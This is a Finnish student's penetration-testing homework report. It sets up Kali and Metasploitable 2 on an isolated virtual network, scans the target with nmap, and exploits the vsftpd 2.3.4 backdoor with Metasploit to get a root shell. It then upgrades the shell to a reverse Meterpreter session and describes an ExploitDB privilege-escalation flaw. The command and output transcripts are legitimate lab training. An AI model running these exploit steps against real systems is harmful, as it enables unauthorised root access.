




# H3

## x) Lue/katso ja tiivistä. (Tässä x-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen tai kuunteleminen ja tiivistelmä riittää. Tiivistämiseen riittää muutama ranskalainen viiva.)

### € Velu 2022: Mastering Kali Linux for Advanced Penetration Testing 4ed: Chapter 10 - Exploitation: kappaleet "The Metasploit Framework", "The exploitation of targets using Metasploit" ja "Using public exploits". Eli ei enää kappaletta "Developing a Windows exploit" ja siitä eteenpäin.

- Modulaarinen lähestyminen kybertappoketjun exploit vaihesseen.
- Tekee hyökkäyksien kehittämisestä ja kooodamisesta helpompaa.
- Kolme osaa: kirjastot, moduulit ja rajapinnat.
- Kirjastot sisältävät tarpeellisia komponentteja exploittien ohjelmointiin.
- Rajaponnoista löytyy consolia ja graafista käyttöliittymää (Armitage).
- Moduulit ovat valmiita työkaluja mitä voi käyttää hyökkäämiseen.

## a) Asenna Kali virtuaalikoneeseen

Ladataan kali linux [täältä](https://www.kali.org/get-kali/#kali-platforms). Aikaisemmassa tehtävässä asensin valmiin [virtuaalikone imagen](https://github.com/K-Jesse/Pentest/blob/main/H1.md#d-asenna-linux-virtuaalikoneeseen-suosittelen-joko-kali-viimeisin-versio-tai-debian-12-bookworm) joten tehdään tälläkertaa toisella tavalla ja ladataan installer image.

Klikkaan new ja valitsen juuri lataamani installerin. Tämän jälkeen painetaa next kliksutellaan haluamat välimuistit ja tallennustilat jne. 


## b) Asenna Metasploitable 2 virtuaalikoneeseen

Lataan metasploitable 2:n [täältä](https://sourceforge.net/projects/metasploitable/). Virtualboxissa tehdään taas uusi kone, mutta tällä kertaa imagen sijaan valitaan typeen Linux ja versioon other linux 64. Virtual hard disk vaiheessa valitaan "Use existing virtual hard drive" ja valitaan juuri ladattu metasploitable tiedosto. 

## c) Tee koneille virtuaaliverkko 

<ul>
  <li>Kali saa yhteyden Internettiin, mutta sen voi laittaa pois päältä</li>
  <li>Kalin ja Metasploitablen välillä on host-only network, niin että porttiskannatessa ym. koneet on eristetty intenetistä, mutta ne saavat yhteyden toisiinsa</li>
  <li>Osoita eri komennoilla, että Internet-yhteys katkeaa: 'ping 1.1.1.1', 'ping www.google.com', 'curl www.google.com'</li>
</ul>

Alotin menemällä virtualboxin network asetuksiin. Sieltä luodaan uusi host-only verkko ja laitetaan DHCP palvelin päälle, niin saadaan laitteille ip osoitteet.



Seuraavaksi klikkaan oikealla kalia VMboxissa ja menen asetuksiin ja sieltä network osuuteen. Laitetaan Adapter 2 välilehdelle host-only adapteriksi juuri luomamme verkko. Mennään myös metasploitablen asetuksiin, mutta muutetaan vain 1 adapteria niin, että se ei ole NAT verkossa vaan korvataan se tällä samalla uudella verkolla mikä laitettiin myös kaliin 2 adapteriin. 



Seuraavaksi koneet käyntiin ja käydään vielä kalin network asetuksissa klikkaamassa cable connected pois, niin se ei ole yhteydessä internettiin.

Sitten katsotaan koneilta niiden ip osoitteet komennolla "ip a" ja koitetaan pingata niitä. Pingaus onniistuu ja sen aika on alle 1ms mikä viittaisi selvästi lan verkkoon. Pingataan myös molemmilla laitteilla 1.1.1.1 ja www.google.com, ettei olla vahingossa internetissä



## d) Etsi Metasploitable porttiskannaamalla (db_nmap -sn). Tarkista selaimella, että löysit oikean IP:n - Metasploitablen weppipalvelimen etusivulla lukee Metasploitable. Katso, ettei skannauspaketteja vuoda Internetiin - kannattaa irrottaa koneet netistä skannatessa.

Ajoin komennot 

```
msfconsole
db_nmap -sn 192.168.143.4

```

mutta sain vastaukseksi, että tietokanta ei ole yhteydessä. [Tällä ohjeella](https://miteshshah.github.io/linux/kali/how-to-fix-metasploit-database-not-connected-or-cache-not-built/) sitten sain ratkaistua tämän haasteen. Piti vain laittee se tietokanta päälle. 

```
sudo service postgresql start
sudo msfdb init
```

Nyt toimii.

```
msf6 > db_nmap -sn 192.168.143.4
[*] Nmap: Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-19 18:20 EET
[*] Nmap: 'mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers'
[*] Nmap: Nmap scan report for 192.168.143.4
[*] Nmap: Host is up (0.013s latency).
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 0.02 seconds

```



## e) Porttiskannaa Metasploitable huolellisesti (db_nmap -A -p0-). Analysoi tulos. Kerro myös ammatillinen mielipiteesi (uusi, vanha, tavallinen, erikoinen), jos jokin herättää ajatuksia.

Ajoin sitten tehtävänannossa olevan komennon ja aluksi hieman ihmettelin, että kun ei vaikuttanut mitään tapahtuvan, mutta painoin sitten enteriä ja sain vähän väliaikatietoa prosessin etenemisestä. Tähän olisi verbosen lisääminen varmasti auttanut myös.

```
msf6 > db_nmap -A -p0- 192.168.143.4
[*] Nmap: Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-19 18:25 EET
[*] Nmap: 'mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers'
[*] Nmap: Stats: 0:01:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
[*] Nmap: Service scan Timing: About 96.67% done; ETC: 18:26 (0:00:02 remaining)
[*] Nmap: Stats: 0:01:21 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
[*] Nmap: Service scan Timing: About 96.67% done; ETC: 18:26 (0:00:03 remaining)
[*] Nmap: Stats: 0:01:26 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
[*] Nmap: Service scan Timing: About 96.67% done; ETC: 18:26 (0:00:03 remaining)
[*] Nmap: Stats: 0:02:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
[*] Nmap: NSE Timing: About 98.43% done; ETC: 18:27 (0:00:00 remaining)

```

Koko hommassa kesti yllättävän pitkään mutta lopulta lätkähti ruudulle paljon tavaraa. Sieltä ainakin bongasin muutaman jutun mitkä voisi kiinnostaa hyökkääjiä. Apache ja Mysql ohjelmien versiot olivat molemmat vanhoja joista voisi löytyä haavottuvaisuuksia

```
80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
[*] Nmap: |_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2

[*] Nmap: 3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
```

## f) Murtaudu Metasploitablen VsFtpd-palveluun Metasploitilla (search vsftpd, use 0, set RHOSTS - varmista osoite huolella, exploit, id)

Aloitin alkuun laittamalla tuon hakukomennon. Tulokeksi sain muutaman eri exploitin. Niistä lopulta valikoin tuon backdoor komennon sillä se vaikutti enemmän siltä mitä tässä nyt kaivataan. 

```
msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

```

Sitten vielä annetaan kohdekoneen ip-osoite ja ajetaan exploitti. 

```
msf6 > use 1
[*] No payload configured, defaulting to cmd/unix/interact                                                                                                           
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.143.4
rhosts => 192.168.143.4                                                                                                                                              
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.143.4:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.143.4:21 - USER: 331 Please specify the password.
[+] 192.168.143.4:21 - Backdoor service has been spawned, handling...
[+] 192.168.143.4:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.143.3:45547 -> 192.168.143.4:6200) at 2023-11-19 18:52:21 +0200

whoami
root
id
uid=0(root) gid=0(root)
```

## g) Parempi sessio. Tee vsftpd-hyökkäyksestä saadusta sessiosta parempi. (Voit esimerkiksi päivittää sen meterpreter-sessioksi, laittaa tty:n toimimaan tai tehdä uuden käyttäjän ja ottaa yhteyden jollain tavallisella protokollalla)

Löysin [täältä](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646) ohjeet päivittämiseen joten seruaan niitä.

Aloitetaan CTRL+Z komenolla joka laittaa nykyisen session taustalle. Seuraavaksi haetaan "search shell_to_meterpreter" ja ajetaan se "use 0". Sitten ajetaan "sessions -l" mistä nähdään päällä olevat sessiot. "show options" komennolla voidaan katsoa vaihtoehtoja, mutta toteutetaan ohjeen mukaan eli ajetaan "set SESSION 1" ja "run" komennot. Seuraavaksi pitäisi onnistua uuden session ajaminen "session -i 2" komennolla, mutta se ei jostain syystä toimi. Tässä vielä kopio minun syötteistä.

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.143.3:45547 -> 192.168.143.4:6200 (192.168.143.4)

msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.143.3:4433 
[*] Sending stage (1017704 bytes) to 192.168.143.4
[*] Meterpreter session 2 opened (192.168.143.3:4433 -> 192.168.143.4:59880) at 2023-11-20 00:24:27 +0200
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > session -i 2
[-] Unknown command: session
msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                        Connection
  --  ----  ----                   -----------                        ----------
  1         shell cmd/unix                                            192.168.143.3:45547 -> 192.168.143.4:6200 (192.168.143.4)
  2         meterpreter x86/linux  root @ metasploitable.localdomain  192.168.143.3:4433 -> 192.168.143.4:59880 (192.168.143.4)

msf6 post(multi/manage/shell_to_meterpreter) > session -i 2
[-] Unknown command: session
msf6 post(multi/manage/shell_to_meterpreter) > SESSION -i 2
[-] Unknown command: SESSION
msf6 post(multi/manage/shell_to_meterpreter) > 
                                                          
```

h) Etsi, tutki ja kuvaile jokin hyökkäys ExploitDB:sta. (Tässä harjoitustehtävässä pitää hakea ja kuvailla hyökkäys, itse hyökkääminen jää vapaaehtoiseksi lisätehtäväksi)

https://www.exploit-db.com/exploits/51682

Kysseessä on haavoittuvuus Inosoft VisiWin 7 softassa. Tässä softassa on haavoittuvaisia kansioita mitkä mahdollistaa hyökkäjälle pääsyn korkeammille oikeuksille manipuloimalla tiedostoja jotka ajetaan SYSTEM oikeuksilla. Tässä vielä kansiot jotka ovat haavoittuvaisia.

```
C:\>icacls "C:\Program Files (x86)\INOSOFT GmbH"
C:\Program Files (x86)\INOSOFT GmbH BUILTIN\Administrators:(OI)(CI)(F)
                                     Everyone:(OI)(CI)(F)
                                     NT AUTHORITY\SYSTEM:(OI)(CI)(F)
```


## Lähteet
Oreilly, Mastering kali linux: https://learning.oreilly.com/library/view/mastering-kali-linux/9781801819770/Text/Chapter_10.xhtml#_idParaDest-248
